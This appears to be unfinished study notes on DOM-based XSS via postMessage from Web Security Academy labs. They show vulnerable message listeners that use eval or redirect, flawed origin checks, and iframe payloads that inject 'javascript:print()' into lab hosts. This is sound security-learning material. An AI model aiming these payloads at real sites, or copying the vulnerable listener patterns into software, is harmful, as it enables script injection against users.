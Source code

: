 ## Sinks:
```
postMessage()
```
As long as a website accepts web message data from an untrusted source due to a lack of adequate origin verification, any sinks that are used by the incoming message event listener could potentially lead to vulnerabilities.
## Prevention:
You should avoid sending web messages that contain data that originated from any untrusted source, verify the origin of any incoming messages.

#### Example:
Vulnerable code:
```js
<script>
window.addEventListener('message', function(e) {
  eval(e.data);
});
</script>
```
Payload:
```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
````

#### Another example
```js
window.addEventListener('message', function(e) {
	var url = e.data;
	if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
		location.href = url;
	}
}, false);
```
payload
```html
<iframe src="https://0a1b00fa039e9b98b84c13430059007f.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## Origin verification
```js
window.addEventListener('message', function(e) {
	if (e.origin.indexOf('normal-website.com') > -1) { 
		eval(e.data); 
	}
 })
```
also vulnerable:
```js
window.addEventListener('message', function(e) {
    if (e.origin.endsWith('normal-website.com')) {
        eval(e.data);
    }
});
```


## DOM XSS using web messages and `JSON.parse`
#to-be-continued 
```html
<iframe src="https://0ae500fa03973a108f40017e00e600b6.web-security-academy.net/"
onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```
TODO - finish the lab
